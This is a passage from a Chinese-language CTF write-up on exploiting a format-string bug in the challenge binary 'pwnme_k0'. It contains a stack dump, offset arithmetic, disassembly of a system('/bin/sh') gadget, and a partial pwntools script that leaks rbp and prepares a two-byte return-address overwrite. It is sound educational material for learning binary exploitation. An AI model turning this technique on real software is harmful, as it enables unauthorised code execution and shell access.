 可以发现我们输入的用户名在栈上第三个位置，那么除去本身格式化字符串的位置，其偏移为为 5 + 3 = 8。

#### 修改地址

我们再仔细观察下断点处栈的信息

```text
0x00007fffffffdb40│+0x00: 0x00007fffffffdb80  →  0x00007fffffffdc30  →  0x0000000000400eb0  →   push r15	 ← $rsp, $rbp
0x00007fffffffdb48│+0x08: 0x0000000000400d74  →   add rsp, 0x30
0x00007fffffffdb50│+0x10: "aaaaaaaa"	 ← $rdi
0x00007fffffffdb58│+0x18: 0x000000000000000a
0x00007fffffffdb60│+0x20: 0x7025702500000000
0x00007fffffffdb68│+0x28: "%p%p%p%p%p%p%p%pM\r@"
0x00007fffffffdb70│+0x30: "%p%p%p%pM\r@"
0x00007fffffffdb78│+0x38: 0x0000000000400d4d  →   cmp eax, 0x2
```

可以看到栈上第二个位置存储的就是该函数的返回地址(其实也就是调用 show account 函数时执行 push rip 所存储的值)，在格式化字符串中的偏移为 7。

与此同时栈上，第一个元素存储的也就是上一个函数的 rbp。所以我们可以得到偏移 0x00007fffffffdb80 - 0x00007fffffffdb48 = 0x38。继而如果我们知道了 rbp 的数值，就知道了函数返回地址的地址。

0x0000000000400d74 与 0x00000000004008A6 只有低 2 字节不同，所以我们可以只修改 0x00007fffffffdb48 开始的 2 个字节。

这里需要说明的是在某些较新的系统(如 ubuntu 18.04)上, 直接修改返回地址为 0x00000000004008A6 时可能会发生程序 crash, 这时可以考虑修改返回地址为 0x00000000004008AA,  即直接调用 system("/bin/sh") 处

```assembly
.text:00000000004008A6 sub_4008A6      proc near
.text:00000000004008A6 ; __unwind {
.text:00000000004008A6                 push    rbp
.text:00000000004008A7                 mov     rbp, rsp
.text:00000000004008AA <- here         mov     edi, offset command ; "/bin/sh"
.text:00000000004008AF                 call    system
.text:00000000004008B4                 pop     rdi
.text:00000000004008B5                 pop     rsi
.text:00000000004008B6                 pop     rdx
.text:00000000004008B7                 retn
```

#### 利用程序
```python
from pwn import *
context.log_level="debug"
context.arch="amd64"

sh=process("./pwnme_k0")
binary=ELF("pwnme_k0")
#gdb.attach(sh)

sh.recv()
sh.writeline("1"*8)
sh.recv()
sh.writeline("%6$p")
sh.recv()
sh.writeline("1")
sh.recvuntil("0x")
ret_addr = int(sh.recvline().strip(),16) - 0x38
success("ret_addr:"+hex(ret_addr))


sh.recv()
sh.writeline("2")
sh.recv()
sh.sendline(p64(ret_addr))
sh.recv()
#sh.writeline("%2214d%8$hn")
```